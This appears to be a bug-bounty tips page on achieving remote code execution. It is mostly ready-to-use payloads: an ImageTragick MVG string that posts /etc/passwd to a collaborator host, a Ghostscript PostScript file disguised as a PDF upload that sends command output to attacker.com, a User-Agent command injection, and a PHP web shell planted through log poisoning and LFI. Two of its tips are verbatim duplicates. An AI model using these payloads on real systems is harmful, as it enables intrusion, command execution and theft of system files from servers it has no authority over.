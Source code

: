 #                                       Finding RCE: Bug bounty Tips

## TIP-1

    If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
    
## TIP-2 

    If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
  
  
## TIP-3 

    Recon to RCE:
    Google "upload" site:”target" -> upload form -> ImageTragick MVG -> RCE

    PoC:
    push graphic-context viewbox 0 0 200 200 fill 'url(https://example.123 "|curl -d "@/etc/passwd" -X POST https://xxx.burpcollaborator.net/test1")' pop graphic-context
    

   [This Tool imgetragick get shell](https://github.com/vishwaraj101/imagetragick)
    
## TIP-4 

   [RCE on PDF upload:](https://twitter.com/huntmost/status/1192670565963911169)

    Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
    Content-Type: application/pdf

    %!PS
    currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
    .putdeviceparams
    quit
    
   [Hackerone report](https://hackerone.com/reports/403417)
   
## TIP-5 
```bash
 User-Agent: `curl - v http://BurpCollaborator.com$(id)`
 # Get command injection
 ```
 
## Log poisoning LFI RCE
```
- Burp inject php code in User-Agent User-Agent: <?php system($_REQUEST['hack']); ?>
- Check logs at /var/log/httpd-access.log
- Use LFI to RCE 10.10.10.84/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&hack=uname
```

   
   
   
